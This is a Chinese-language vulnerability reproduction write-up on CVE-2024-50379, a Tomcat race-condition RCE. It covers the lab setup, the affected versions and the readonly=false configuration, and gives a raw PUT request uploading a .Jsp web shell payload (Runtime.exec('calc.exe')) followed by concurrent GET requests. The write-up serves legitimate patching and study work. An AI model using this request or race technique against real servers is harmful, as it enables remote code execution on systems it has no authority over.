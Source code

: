 # Apache-Tomcat条件竞争致远程代码执行漏洞(CVE-2024-50379)

最近爆出 Apache Tomcat条件竞争导致的RCE，影响范围当然是巨大的，公司也及时收到了相关情报，于是老大让我复现，以更好的帮助公司进行修复漏洞。

复现难度其实并不大，但是成功率很低，我在复现过程中也尝试了很多tomcat、java版本，操作一样但结果不同，相信很多师傅也在复现，希望能够成功，所以我对“成功率”进行了一点点研究，希望能够提高师傅们复现成功的概率。

# 环境搭建

经过多次的尝试，建议大家使用java8不要用太高的java版本 否则难以复现成功（关注后台回复20241219可以获取跟我一样的漏洞复现环境和POC）这里使用的环境如下：

```
jre1.8.0_202
apache-tomcat-9.0.63
```

**windows虚拟机**

配置环境变量

这里一定要配置JAVA_HOME否则会报错

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311105830.webp)

需要将这个版本的java的环境变量置顶，防止其他版本的干扰，大家应该都明白

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311105783.webp)

配置CATALINA_BASE

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311105591.webp)

这下环境变量就已经配置齐了 这个时候就已经可以正常启动tomcat了 运行这个批处理文件

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311105836.webp)

启动成功（乱码无所谓的 web.xml改一下GBK即可）

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311105215.webp)

# 漏洞分析

影响版本

11.0.0-M1 <= Apache Tomcat < 11.0.2

10.1.0-M1 <= Apache Tomcat < 10.1.34

9.0.0.M1 <= Apache Tomcat < 9.0.98

漏洞原理

首先来看看著名的**CVE-2017-12615**，我们查看tomocat的配置 (conf/web.xml)

```
    <!-- The mapping for the default servlet -->
    <servlet-mapping>
        <servlet-name>default</servlet-name>
        <url-pattern>/</url-pattern>
    </servlet-mapping>

    <!-- The mappings for the JSP servlet -->
    <servlet-mapping>
        <servlet-name>jsp</servlet-name>
        <url-pattern>*.jsp</url-pattern>
        <url-pattern>*.jspx</url-pattern>
    </servlet-mapping>
```

当请求的后缀为jsp或jspx的时候交由JSP servlet进行处理请求，此外交给default servlet进行处理请求。而我们查看**CVE-2017-12615**的payload可知，它对文件后缀采取了一些绕过，例如PUT一个1.jsp/、1.jsp空格、1.jsp%00从而绕过JSP servlet的限制，让default servlet来处理请求。当default servlet处理PUT请求时如下图

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311105069.webp)

```java
 @Override
    protected void doPut(HttpServletRequest req, HttpServletResponse resp)
        throws ServletException, IOException {

        if (readOnly) {
            sendNotAllowed(req, resp);
            return;
        }

        String path = getRelativePath(req);

        WebResource resource = resources.getResource(path);

        Range range = parseContentRange(req, resp);

        if (range == null) {
            // Processing error. parseContentRange() set the error code
            return;
        }

        InputStream resourceInputStream = null;

        try {
            // Append data specified in ranges to existing content for this
            // resource - create a temp. file on the local filesystem to
            // perform this operation
            // Assume just one range is specified for now
            if (range == IGNORE) {
                resourceInputStream = req.getInputStream();
            } else {
                File contentFile = executePartialPut(req, range, path);
                resourceInputStream = new FileInputStream(contentFile);
            }

            if (resources.write(path, resourceInputStream, true)) {
                if (resource.exists()) {
                    resp.setStatus(HttpServletResponse.SC_NO_CONTENT);
                } else {
                    resp.setStatus(HttpServletResponse.SC_CREATED);
                }
            } else {
                resp.sendError(HttpServletResponse.SC_CONFLICT);
            }
        } finally {
            if (resourceInputStream != null) {
                try {
                    resourceInputStream.close();
                } catch (IOException ioe) {
                    // Ignore
                }
            }
        }
    }

```

会去检查配置文件中的readonly的值是否为false，如果是true的话就直接return也就是不允许put请求，所以我们需要在配置文件中进行如下设置 (conf/web.cml) 注意是default servlet，因为上面讲了我们最终处理put请求是default servlet

```
  <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>

        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
            <param-name>readonly</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

最终就可以进行put上传shell了，这个就是**CVE-2017-12615**。

那么再看看最近很火的CVE-2024-50379。原理是条件竞争，通过并发put文件上传非标准后缀的“jsp”，并不断发起get请求一个标准后最的“jsp”文件，最终由于服务器的大小写不敏感，导致请求成功造成RCE。

看看pyload是put一个xxx.Jsp（也可以PUT html........），为什么长这样呢？阅读了上文，固然就明白了。 当然是要绕过jsp servlet的后缀匹配规则了然后让default servlet去处理请求。

现在我们尝试PUT一下 数据包如下

```
PUT /test.Jsp HTTP/1.1
Host: 192.168.19.135:8080

<% Runtime.getRuntime().exec("calc.exe");%>
```

返回状态码是201代表上传成功 可以去webapps/ROOT目录看到

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311105018.webp)

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311106320.webp)

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311106484.webp)

再次重放请求的时候就是204的状态码了  说明文件已经存在

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311106218.webp)

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311106369.webp)

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311106865.webp)

# 漏洞复现

接下来开始复现该漏洞 我用的是window虚拟机 而不是真机，因为我电脑内存太大，可能效果不会很明显，毕竟要用到条件竞争，所以如果想成功率高一点建议用虚拟机，把内核、内存大小设置小一点。

yakit-发送到webFuzzer 发三个  get的并发线程建议大于前面两个

第一个

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311106981.webp)

第二个

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311106377.webp)

第三个 

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311106855.webp)

开弹

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311106630.webp)

在我虚拟机卡的时候往往容易成功 有时候直接用yakit就能成功，有时候不行，所以我同时用yakit和脚步一起打 

## 漏洞来源
- https://mp.weixin.qq.com/s/d7dneaUgF2TD2KGdT1qiQw